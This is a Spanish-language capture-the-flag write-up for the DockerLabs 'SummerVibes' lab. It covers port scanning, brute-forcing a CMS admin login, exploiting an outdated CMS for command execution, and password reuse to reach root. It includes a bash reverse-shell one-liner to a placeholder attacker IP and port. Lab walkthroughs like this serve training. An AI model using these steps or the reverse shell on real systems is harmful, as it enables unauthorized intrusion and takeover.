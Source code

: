 ```yaml
---
layout: default
title: SummerVibes
parent: DockerLabs
---
```

# SummerVibes
{: .no_toc }

## Contenidos
{: .no_toc .text-delta}

1. TOC
{:toc}

---
# Reconocimiento

Iniciaremos tirando nuestro script de reconocimiento para descubir **puertos abiertos**{:.text-red-100}.
![](/assets/img/DockerLabs/SummerVibes/S0.png)

Identificamos 2 puertos abiertos:
- Servicio **SSH** del puerto 22.
- Servicio **HTTP** del puerto 80.

![](/assets/img/DockerLabs/SummerVibes/S1.png)

Si vemos, por defecto tendremos la pagina de bienvenida de un servidor **APACHE**, si vamos a su codigo fuente, veremos algo interesante:
![](/assets/img/DockerLabs/SummerVibes/S2.png)

Una vez entramos, veremos un servicio **CMS**, si bajamos, veremos que nos muestra que existe un panel de acceso. Por lo que nos iremos, y trataremos de probar **credenciales por defecto**{:.text-green-100}.
![](/assets/img/DockerLabs/SummerVibes/S3.png)

Una vez veamos que no existen passwords por defecto, nos queda aplicar **fuerza bruta**{:.text-red-100}, si vemos, obtendremos una password que parece ser la del **admin**.
![](/assets/img/DockerLabs/SummerVibes/S4.png)

# Intrusion
Una vez dentro, podremos ver que se trata de una version desactualizada, la **2.2.19**, si damos una busqueda rapida por la web, encontraremos una vulnerabilidad que nos permite la **ejecucion remota de comandos**{:.text-red-100}.
![](/assets/img/DockerLabs/SummerVibes/S5.png)

Por lo que nos queda intentarlo.
![](/assets/img/DockerLabs/SummerVibes/S6.png)

Como podemos apreciar, tenemos forma de ejecutar comandos, lo que nos queda ahora es entrar al servidor.

```bash
bash -c "bash -i &>/dev/tcp/<IP>/PUERTO 0>&1"
```
![](/assets/img/DockerLabs/SummerVibes/S7.png)

## Root
Una vez dentro, podremos apreciar que existen usuarios como: **root,cms**, probaremos la password que obtuvimos anteriormente, con ambos.
![](/assets/img/DockerLabs/SummerVibes/S9.png)

# FIN
